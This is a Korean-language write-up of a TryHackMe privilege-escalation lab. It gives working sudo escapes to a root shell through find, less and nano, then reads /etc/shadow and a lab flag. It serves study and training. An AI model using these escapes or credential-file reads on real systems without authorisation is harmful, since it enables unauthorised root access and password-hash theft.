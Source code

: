 ## Privilege Escalation: Sudo Exploitation
> TryHackMe의 "Privilege Escalation: Sudo" 실습을 통해, 특정 바이너리에 대한 sudo 권한을 악용하여 루트 권한을 획득하는 과정을 수행했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.60.159
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **OS 정보**: Ubuntu 20.04.1 LTS (Linux 5.4.0-1029-aws)
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속

- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.60.159
```
![SSH 접속 및 로그인](./screenshots/ssh_connect.png)


#### 2.2 Sudo 권한 확인

- karen 사용자는 비밀번호 없이 `find`, `less`, `nano`를 sudo로 실행할 수 있는 권한이 있다. (NOPASSWD 설정)

```bash
sudo -l
```

![sudo -l 결과](./screenshots/sudo_result.png)


#### 2.3 GTFOBins 참고
- https://gtfobins.github.io/ 사이트에서 각 명령어(`find`, `less`, `nano`)에 대한 권한 상승 방식 참고하여 루트 쉘 획득 시도를 하였다.

---

### 3. 명령어별 권한 상승

#### 3.1 find 명령어 이용

- `-exec` 옵션을 사용하여 루트 권한으로 쉘을 실행하였다.
```bash
sudo find . -exec /bin/sh \; -quit
```
- 이후 루트 쉘에서 flag2.txt 파일을 검색 및 확인하였다.

```bash
find / -name flag2.txt
cat /home/ubuntu/flag2.txt
```
![find를 이용한 루트 쉘 및 플래그 획득](./screenshots/find_flag.png)

---

#### 3.2 less 명령어 이용
- less 명령어로 파일을 열고 `!/bin/sh`를 실행하면 쉘이 생성되었다.
```bash
sudo less /etc/profile
!/bin/sh
```

![파일 내용](./screenshots/file_content.png)

- 해당 쉘은 sudo로 실행되었기 때문에 루트 쉘을 획득하였다.

![less를 이용한 루트 쉘 획득](./screenshots/less_root.png)

---

#### 3.3 nano 명령어 이용
- `nano` 실행 후 Ctrl+R, Ctrl+X 키를 눌러 명령 실행 모드 진입을 했다.
- `reset; sh 1>&0 2>&0` 입력하여 루트 쉘을 획득하였다.

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
![nano를 이용한 루트 쉘 획득](./screenshots/nano_root.png)

- 루트 권한이 부여되었음을 확인하였다.

```bash
cat /etc/shadow
```

- 루트 권한으로만 접근 가능한 `/etc/shadow` 파일 내용을 출력하였다.
- karen, frank 등의 계정 해시를 포함하여 모든 사용자 정보 확보하였다.

![shadow 파일 내용 확인](./screenshots/flag_and_user_property.png)

---

### 4. 최종 결과
- 루트 권한 획득 성공 (`uid=0(root)`)
- flag2.txt 파일에서 플래그 확보: `THM-402028394`
- `/etc/shadow` 파일을 통해 추가 사용자 정보 확보 가능

---

> ✅ Sudo NOPASSWD 설정과 GTFOBins 활용이 얼마나 강력한지를 실습을 통해 체감할 수 있었고, 각 바이너리 별로 쉘 획득 방식이 다양하다는 점을 실습으로 익힐 수 있었습니다.

